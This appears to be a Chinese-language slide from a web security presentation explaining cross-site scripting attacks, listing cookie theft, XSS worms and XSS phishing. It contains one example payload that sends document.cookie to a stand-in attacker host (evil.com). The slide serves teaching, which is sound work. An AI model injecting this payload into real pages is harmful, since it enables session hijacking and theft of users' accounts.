

# 攻击
比如盗用户认证信息：cookies
XSS exploit:
new Image().src='http://www.evil.com/steal.php?data='+encodeURIComponent(document.cookie);
还有更多的攻击手法
XSS Virus/Worm
XSS Phishing
还有更多更多的漏洞